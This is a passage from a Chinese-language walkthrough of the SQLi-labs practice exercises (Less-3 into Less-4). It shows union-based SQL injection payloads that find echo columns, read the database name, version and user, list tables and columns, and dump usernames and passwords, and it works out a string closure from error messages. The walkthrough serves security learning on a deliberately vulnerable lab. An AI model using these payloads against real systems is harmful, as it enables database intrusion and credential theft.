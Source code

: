 3、判断回显位为2，3

```
?id=-1') union select 1,2,3 --+
--> Welcome    Dhakkan
    Your Login name:2
     Your Password:3
```

4、查用户、数据库名、数据库版本

```
?id=-1') union select 1,database(),3 --+
-->security

?id=-1') union select 1,version(),3 --+
-->10.2.26-MariaDB-log

?id=-1') union select 1,user(),3 --+
-->root@localhost
```

5、当前数据库所有表名

```
?id=-1') union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
-->emails,referers,uagents,users
```

6、查看users表

```
?id=-2') union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'and table_schema='security' --+
-->id,username,password
```

7、查看username和password

```
?id=-1') union select 1,2,group_concat(username ,'~', password) from users--+
-->Dumb~Dumb,Angelina~I-kill-you,Dummy~p@ssword,secure~crappy,stupid~stupidity,superman~genious,batman~mob!le,admin~admin,admin1~admin1,admin2~admin2,admin3~admin3,dhakkan~dumbo,admin4~admin4
```

## Less-4

1、判断出为字符型注入，且为`")`闭合

```
?id=1"
--> You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1 

?id=1")
-->  You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '") LIMIT 0,1' at line 1 

?id=1") --+
-->页面正常
```
